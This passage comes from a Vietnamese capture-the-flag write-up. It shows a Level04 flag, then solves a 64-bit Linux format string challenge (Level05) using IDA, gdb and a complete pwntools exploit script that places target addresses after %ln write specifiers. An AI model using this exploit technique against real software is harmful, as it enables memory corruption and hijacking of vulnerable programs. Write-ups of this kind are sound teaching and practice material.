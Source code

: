 ![image](https://hackmd.io/_uploads/ry1ULtKP6.png)
![image](https://hackmd.io/_uploads/HJRtUtKDp.png)

và mình lấy được flag là:
**KMA{8bbfeab07177f229c339d96aad29e985}**

## Level05
![image](https://hackmd.io/_uploads/B1EF6Rkv6.png)
đây là file chạy  64 bit trên linux

mình dùng IDA 64 bit để reverse chương trình được:

![image](https://hackmd.io/_uploads/ryRyC0kP6.png)

Không khác gì level04 ngoại trừ việc đây là một dịch vụ 64 bit. Đối với dịch vụ 64 bit. Địa chỉ ô nhớ sẽ mang vài byte null. Điều này khiến cho nếu sử dụng mã khai thác như cách giải bài level04 sẽ làm cho việc xuất string ra bị đứt đoạn (do gặp kí tự null) điều này dẫn đến không thể kiểm soát được số ký tự in ra màn hình.
Khắc phục bằng khách thay vì địa chỉ đặt ở đầu chuỗi ta có thể đặt ở cuối chuỗi. Như vậy số ký tự in ra màn hình không bị ảnh hưởng vì các byte null ở cuối chuỗi.

![image](https://hackmd.io/_uploads/rJURKYFva.png)

dùng gdb và mình dừng ngay sau hàm snprintf được

![image](https://hackmd.io/_uploads/BJECptYD6.png)


thấy rằng chuỗi mình nhập vào cách rsi 4(```%6$x```) nên để lấy được giá trị chúng ta nhập vào thì phải bắt đầu từ ```%10$x```
```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Level05')
p = process(exe.path)

p.recvuntil(b'check at ')
address = p.recvline()
address = address.decode('utf8').strip()
# address = address.replace('0x', '')
address=int(address, 16)

payload = f'%000105x%10$ln'.encode()
payload += f'%11$ln'.encode()
payload += f'%12$ln'.encode()
payload += f'%13$ln'.encode()

payload += p64(address)
payload += p64(address+1)
payload += p64(address+2)
payload += p64(address+3)
payload += f'%89x'.encode()
# payload = address

# p.sendline(str(payload).encode())
p.sendline((payload))
# p.sendline(str(data).encode())


p.interactive()
```
